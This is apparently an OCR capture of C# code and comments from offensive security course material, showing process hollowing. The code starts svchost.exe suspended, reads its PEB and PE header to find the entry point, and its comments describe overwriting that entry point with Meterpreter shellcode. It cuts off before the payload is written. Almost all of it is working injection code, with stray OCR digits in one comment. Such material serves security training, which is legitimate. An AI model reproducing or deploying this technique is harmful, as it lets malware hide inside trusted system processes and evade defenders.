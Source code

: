 ```C#

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
             [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("kernel32.dll")]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
        byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern uint ResumeThread(IntPtr hThread);
        static void Main(string[] args)
        {
            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero,
             IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);

            /*
We can now call ZwQueryInformationProcess and fetch the address of the PEB from the
PROCESS_BASIC_INFORMATION structure:
            */

            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebBaseAddress + 0x10);

            //Following the DllImport, we can call ReadProcessMemory by specifying an 8-byte buffer that is 
            //then converted to a 64bit integer through the BitConverter.ToInt64278 method and then casted to a
            //pointer using (IntPtr
            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

            // parsing the PE HEader entrypoint
            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

            /*
             * To implement this, we convert four bytes at offset 0x3C (e_lfanew field) to an unsigned integer.279
As stated previously, this is the offset from the image base to the PE header structure.
Next, we convert the four bytes at offset e_lfanew plus 0x28 into an unsigned integer. This value 
is the offset from the image base to the EntryPoint
             */
            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

            /*
             The offset from the base address of svchost.exe to the EntryPoint is also called the relative virtual 
address (RVA). We must add it to the image base to obtain the full memory address of the 
EntryPoint. This is done on the last line of Listing 201.
We have obtained the address of the EntryPoint so we can generate our Meterpreter shellcode 
and use WriteProcessMemory to overwrite the existing code as shown in Listing 202. Remember 
that we must add a DllImport statement for WriteProcessMemory before using it.
```